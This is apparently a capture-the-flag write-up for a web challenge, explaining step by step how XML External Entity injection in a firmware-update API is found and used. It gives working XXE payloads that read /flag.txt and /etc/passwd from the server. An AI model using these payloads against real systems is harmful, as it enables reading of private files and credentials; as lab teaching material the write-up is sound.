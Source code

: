# Jailbreak
Category: Web/XXE
Points: 900
Diff: very easy

Description: The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port. The flag is located in /flag.txt

---

We navigate the web interface, analyzing the requests,
We obtain some information about the server `Server: Werkzeug/3.0.3 Python/3.12.3` that we could use for further enumeration, later on.
We could naively try to directly access `http://{machine-ip:port}/flag.txt` from the web root, but it returns a `404 Not Found`.

Under the ROM tab, at `http://{machine-ip:port}/rom` we find something promising: 
![Screenshot of the ROM tab](firmware-update.png)
This seems related to the challenge description.
There's a `textarea`:
```html
<textarea id="configData" class="form-control" rows="26"></textarea>
```
and a js script at `http://{machine-ip:port}/static/js/update.js` that fills it with default data on page load, and also hooks the submit button:
```js
$("#updateBtn").on("click", async () => {
    const msg = await queueUpdate($("#configData").val());
    $("#messageText").text(msg.message);
});
```
to POST the xml data to an api endpoint at /api/update
```js
const queueUpdate = async (xmlConfig) => {
    const response = await fetch("/api/update", {
        method: "POST",
        headers: {
            "Content-Type": "application/xml",
        },
        body: xmlConfig
    });
    return await response.json();
};
```
We click submit and see the normal response:
`Firmware version 1.33.7 update initiated.`

We can go for **XXE (XML External Entity) Injection**. Checking if the back-end parser resolves XML External Entities, or if it is disabled.
An XML entity acts like a place-holder for text or data, and stores it for later use in the document.
We can declare and define custom entities in the XML Document Type Definition (DTD), which in turn is declared (and optionally defined, or loaded from elsewhere) in the DOCTYPE element. An external entity is an entity whose definition is located outside the DTD, specified via the `SYSTEM` keyword and a URI.
1. So we will first define an 'internal' entity by adding this to the top of the XML document:
   `<!DOCTYPE FirmwareUpdateConfig [<!ENTITY foo "flag">]>` 
   The server doesn't complain.
2. To see if our input can be reflected back to us, we read the response again, the version is specified as `1.33.7`, which is supplied by us: `<Version>1.33.7</Version>` \
3. We try to see if modifying it will be reflected in the response, referencing the defined entity: `<Version>&foo;</Version>`
   we get the following response:
   `Firmware version flag update initiated.`
   It works.
4. So all that's left is it try ex-filtrating the flags.txt file by changing foo to an external entity:
   `<!DOCTYPE FirmwareUpdateConfig [<!ENTITY foo SYSTEM "file:///flag.txt">]>`
   And there we go:
   `Firmware version HTB{*****REDACTED****} update initiated.`
   We have the flag.
5. From here we could ex-filtrate more system information to demonstrate the impact. For example:
   `<!DOCTYPE FirmwareUpdateConfig [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>`
   successfully retrieves the contents of /etc/passwd. 